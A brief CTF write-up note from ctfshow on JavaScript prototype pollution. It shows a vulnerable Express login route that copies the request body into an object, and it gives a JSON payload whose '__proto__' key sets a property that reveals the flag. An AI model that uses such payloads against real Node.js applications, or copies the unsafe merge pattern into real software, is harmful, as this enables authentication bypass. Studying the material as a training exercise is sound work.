tags:: CTFWEB/JS/原型链污染

- [源码](https://ctfshow.lanzoui.com/iAV6Xjs9bzc)
- /login
	- ```js
	  /* GET home page.  */
	  router.post('/', require('body-parser').json(),function(req, res, next) {
	    res.type('html');
	    var flag='flag_here';
	    var secert = {};
	    var sess = req.session;
	    let user = {};
	    utils.copy(user,req.body);
	    if(secert.ctfshow==='36dboy'){
	      res.end(flag);
	    }else{
	      return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
	    }
	    
	    
	  });
	  ```
- payload
	- ```json
	  {"username":"asdf","password":"asdf",
	  "__proto__":  {
	  "ctfshow": "36dboy"
	  }
	  }
	  ```